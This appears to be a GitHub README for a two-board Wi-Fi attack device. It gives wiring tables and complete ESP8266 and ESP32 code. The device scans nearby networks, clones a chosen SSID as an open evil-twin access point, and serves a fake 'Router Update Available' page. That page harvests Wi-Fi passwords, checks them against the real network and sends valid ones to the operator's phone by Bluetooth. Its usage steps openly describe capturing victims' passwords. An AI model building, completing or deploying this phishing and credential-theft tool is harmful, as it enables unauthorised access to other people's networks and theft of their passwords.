 # WIFI-project-penetration-system
**highly coordinated, multi-microcontroller Wi-Fi penetration system**

- **ESP8266**: Scanning + Deauth + Control Center  
- **ESP32 WROOM**: Fake Access Point + Phishing Page + Password Verification  
- **NRF24L01**: Wireless data bridge between ESP8266 and ESP32  
- **Bluetooth**: Send password to your mobile  
- **Phone**: Control UI via web interface on ESP8266 AP


---

## **[1] ESP8266 — Command & Scan Hub**

### **Functions**:
- Create an Access Point (e.g., `Controller_AP`)
- Serve a web UI to:
  - View scanned networks
  - Select a target network
- Send selected SSID via NRF24L01 to ESP32
- Start deauth attack on the selected SSID

---

### **[2] ESP32 — Fake Access Point + Phishing**

### **Functions**:
- Receive SSID over NRF24L01
- Clone the fake AP using SoftAP
- Show captive portal (phishing)
- Validate password format (via WiFi.begin)
- If correct, send to phone via Bluetooth
- If wrong, show error and retry

---

### **[3] NRF24L01 Communication**

- ESP8266 = NRF **transmitter**  
- ESP32 = NRF **receiver**

---

## ⚠️⚠️⚠️ **complete wiring connections** for the **ESP8266 and ESP32-WROOM with NRF24L01** modules. Both boards will communicate wirelessly using **SPI** with NRF24L01 modules.

## **1. NRF24L01 with ESP8266 (e.g., NodeMCU)**  
> **Role**: Transmitter (sends SSID to ESP32 when target is selected)

### **Wiring:**

| **NRF24L01 Pin** | **ESP8266 Pin** |
|------------------|-----------------|
| VCC              | **3.3V** (Important: Use capacitor for stability — see note below) |
| GND              | GND             |
| CE               | **D2 (GPIO4)**  |
| CSN (CS)         | **D1 (GPIO5)**  |
| SCK              | **D5 (GPIO14)** |
| MOSI             | **D7 (GPIO13)** |
| MISO             | **D6 (GPIO12)** |

**Note**:  
- Add a **10µF capacitor** between **VCC and GND** of the NRF24L01 to prevent power fluctuation.
- Use **external 3.3V LDO regulator** if NRF behaves erratically (ESP8266 3.3V is weak for NRF).

---

## **2. NRF24L01 with ESP32-WROOM-32**  
> **Role**: Receiver (receives SSID and creates Fake Access Point)

### **Wiring:**

| **NRF24L01 Pin** | **ESP32 Pin**     |
|------------------|------------------|
| VCC              | **3.3V**         |
| GND              | GND              |
| CE               | **GPIO26**       |
| CSN (CS)         | **GPIO27**       |
| SCK              | **GPIO18**       |
| MOSI             | **GPIO23**       |
| MISO             | **GPIO19**       |

**Note**:
- Same as above: Add a 10µF capacitor across VCC and GND.
- Use stable 3.3V from ESP32 LDO or external regulator for NRF.

---

## ⚠️ **Capacitor Wiring**  
Add a **10µF (or 4.7µF–22µF) electrolytic or ceramic capacitor** between **VCC and GND** of the **NRF module** to stabilize power. Connect:
- Capacitor **positive leg** to VCC  
- Capacitor **negative leg** to GND  

---

## **Summary Diagram (for clarity)**

```yaml
ESP8266 (NodeMCU)         NRF24L01
---------------------     ----------
3.3V                --->  VCC
GND                 --->  GND
D2  (GPIO4)         --->  CE
D1  (GPIO5)         --->  CSN (CS)
D5  (GPIO14)        --->  SCK
D7  (GPIO13)        --->  MOSI
D6  (GPIO12)        --->  MISO

ESP32-WROOM-32           NRF24L01
---------------------     ----------
3.3V                --->  VCC
GND                 --->  GND
GPIO26             --->  CE
GPIO27             --->  CSN (CS)
GPIO18             --->  SCK
GPIO23             --->  MOSI
GPIO19             --->  MISO
```

---

### Check the Wireless modules are working properly :: NRF module check --> [code](https://github.com/akashdip2001/Wireless-LED-Control-Code-with-NRF)


<p align="center">
  <img src="https://github.com/akashdip2001/High-end-autonomous-anomaly-detection-robot/raw/main/img/modules%20(4).jpg" alt="Image 1" width="46%" style="margin-right: 10px;"/>
  <img src="https://github.com/akashdip2001/High-end-autonomous-anomaly-detection-robot/raw/main/img/modules%20(5).jpg" alt="Image 2" width="46%" style="margin-right: 10px;"/>
</p>

---

## 👨‍💻 **Code Components**

### ✅ ESP8266 Code (Access Point + WiFi Scanner + Web UI + NRF TX + Deauth trigger)

> You’ll need these libraries:
- `ESP8266WiFi.h`
- `ESPAsyncWebServer.h`
- `nRF24L01.h`, `RF24.h`

#### **ESP8266**
```cpp
#include <ESP8266WiFi.h>
#include <ESPAsyncWebServer.h>
#include <SPI.h>
#include <nRF24L01.h>
#include <RF24.h>

const char* ap_ssid = "Controller_AP";
const char* ap_password = "12345678";

AsyncWebServer server(80);

RF24 radio(D2, D1); // CE, CSN
const byte address[6] = "00001";

String networksHTML = "";

void scanNetworks() {
  networksHTML = "";
  int n = WiFi.scanNetworks();
  for (int i = 0; i < n; ++i) {
    networksHTML += "<p><a href='/select?ssid=" + WiFi.SSID(i) + "'>" + WiFi.SSID(i) + "</a></p>";
  }
}

void setup() {
  Serial.begin(115200);

  WiFi.mode(WIFI_AP);
  WiFi.softAP(ap_ssid, ap_password);

  radio.begin();
  radio.setPALevel(RF24_PA_LOW);
  radio.openWritingPipe(address);
  radio.setChannel(108);
  radio.stopListening();

  scanNetworks();

  server.on("/", HTTP_GET, [](AsyncWebServerRequest *request){
    request->send(200, "text/html", "<h2>Nearby Wi-Fi Networks</h2>" + networksHTML);
  });

  server.on("/select", HTTP_GET, [](AsyncWebServerRequest *request){
    if (request->hasParam("ssid")) {
      String targetSSID = request->getParam("ssid")->value();
      radio.write(&targetSSID[0], targetSSID.length());
      request->send(200, "text/html", "<p>Target SSID Sent: " + targetSSID + "</p>");
    } else {
      request->send(400, "text/plain", "SSID not provided.");
    }
  });

  server.begin();
}

void loop() {
  // Optional: refresh scan periodically
}
```

---

### ✅ ESP32 Code (NRF24 RX + Fake AP + Captive Portal + Bluetooth)

> Libraries needed:
- `WiFi.h`, `WebServer.h`
- `SPI.h`, `nRF24L01.h`, `RF24.h`
- `BluetoothSerial.h`

#### **ESP32**

```cpp
#include <WiFi.h>
#include <WebServer.h>
#include <BluetoothSerial.h>
#include <SPI.h>
#include <nRF24L01.h>
#include <RF24.h>

BluetoothSerial BT;
RF24 radio(26, 27); // CE, CSN

const byte address[6] = "00001";
char receivedSSID[50];

WebServer server(80);
String inputHTML = "<html><body><h3>Router Update Available</h3><form action='/submit'><input name='pass'><input type='submit'></form><p id='err' style='color:red;'></p></body></html>";

void handleSubmit() {
  String pass = server.arg("pass");

  WiFi.begin(receivedSSID, pass.c_str());
  delay(3000);

  if (WiFi.status() == WL_CONNECTED) {
    BT.println("Correct password for SSID: " + String(receivedSSID) + " → " + pass);
    server.send(200, "text/html", "<h4>Password verified and accepted!</h4>");
  } else {
    server.send(200, "text/html", inputHTML + "<script>document.getElementById('err').innerText='Wrong password. Try again.'</script>");
  }
}

void setup() {
  Serial.begin(115200);
  BT.begin("ESP32_PasswordCatcher");

  radio.begin();
  radio.setPALevel(RF24_PA_LOW);
  radio.openReadingPipe(1, address);
  radio.setChannel(108);
  radio.startListening();

  WiFi.mode(WIFI_AP);

  server.on("/", []() {
    server.send(200, "text/html", inputHTML);
  });
  server.on("/submit", handleSubmit);
  server.begin();
}

void loop() {
  if (radio.available()) {
    radio.read(&receivedSSID, sizeof(receivedSSID));
    Serial.print("Received SSID: ");
    Serial.println(receivedSSID);

    WiFi.softAP(receivedSSID, "");
  }
  server.handleClient();
}
```

---

## ✅ How to Connect Mobile??

- Connect phone to `Controller_AP`
- Web UI appears at `192.168.4.1/` (auto-open if captive portal configured)
- Select SSID → ESP8266 sends it via NRF → ESP32 clones SSID
- Victim connects → Phishing page shows → Captures password
- ESP32 validates, and if correct → sends it to your phone over Bluetooth

---

### ⚠️ **upgade Needed** !!

You can:
- Log attempts with timestamps in EEPROM
- Add OLED or LED status on success
- Add reset logic using a push button (for both modules)

---

### ⚙️ future improvement plan?
- Android app to receive Bluetooth passwords with UI?
- NRF communication debugging tools?
- PCB design or wiring diagram?

